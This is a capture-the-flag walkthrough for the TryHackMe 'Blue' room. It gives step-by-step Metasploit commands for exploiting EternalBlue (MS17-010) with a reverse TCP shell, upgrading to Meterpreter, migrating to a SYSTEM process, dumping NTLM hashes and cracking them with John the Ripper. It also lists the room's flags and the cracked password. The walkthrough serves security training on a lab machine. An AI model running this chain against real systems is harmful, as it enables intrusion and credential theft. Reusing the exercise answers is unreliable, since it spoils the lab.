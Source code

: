 ```yaml
---
layout: default
title: Blue
---
```


"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the **SMB (Server Message Block)** protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.

EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.

This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).

### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)

---

## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later).

1.  How many ports are open with a port number under 1000?
2.  What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

We can answer these questions with just one nmap scan:

`nmap --script vuln [target_IP]`
This will return all open ports (9 in total, 3 under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or ms17-010).
![nmap]({{ site.baseurl }}/assets/images/thm/blue/ports.png)

## Gain Access
To get through this section you'll need to install the Metasploit framework. Then:

Become root: `sudo su`

Open up Metasploit: `msfconsole`

Set your local IP address as LHOST and LPORT to a random port that is not already in use:

`set LHOST tun0`
`set LPORT 4444`
Search Metasploit's database for the EternalBlue exploit: `search ms17-010`

![ms17-010]({{ site.baseurl }}/assets/images/thm/blue/ms17-010.png)

Use the exploit: `use exploit/windows/smb/ms17_010_eternalblue`

Show the options for the exploit: `show options`. You'll get "RHOSTS" as the first result.

![options]({{ site.baseurl }}/assets/images/thm/blue/options.png)

Now set RHOSTS as the target machine's IP address: `set RHOSTS` [target_IP]

Set the payload: `set payload windows/x64/shell/reverse_tcp`

Run the exploit: `run`

## Escalate
Background the session with Ctrl+z (then press `y` when prompted).

Let's now search the Metasploit database for info on how to convert a shell to a Meterpreter shell:
`search shell_to_meterpreter`

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`.

![shell]({{ site.baseurl }}/assets/images/thm/blue/shell.png)

Use this post module with use 0 and show its' options with show options.

![session]({{ site.baseurl }}/assets/images/thm/blue/session.png)

Since we have two sessions going on, we will have to change the SESSION option to 1 with `set SESSION 1`. To know to which session you have to switch, use the command `sessions -l`.

![sessions]({{ site.baseurl }}/assets/images/thm/blue/sessions.png)

Now run the exploit with `run`.
Once we get the [*] Stopping exploit/multi/handler message, press Ctrl+c to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2]({{ site.baseurl }}/assets/images/thm/blue/session2.png)

![meterpreter]({{ site.baseurl }}/assets/images/thm/blue/meterpreter.png)

The getsystem command will now return this:

![system]({{ site.baseurl }}/assets/images/thm/blue/ports.png)

You can also list all the processes with the ps command and you can migrate to one of these.

![ps]({{ site.baseurl }}/assets/images/thm/blue/ps.png)

Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate [PID]` (e.g., `migrate 2868`).

## Cracking
Now use the `hashdump` command.

![hashdump]({{ site.baseurl }}/assets/images/thm/blue/hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with:

`echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with:
`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

This will return alqfna22 as the password.
![john]({{ site.baseurl }}/assets/images/thm/blue/john.png)

## Find flags!
The first flag is located in the C:\ folder:

> flag{access_the_machine}

The second flag is located in the C:\Windows\System32\config folder:

> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:

> flag{admin_documents_can_be_valuable}

That's all, hope I helped.
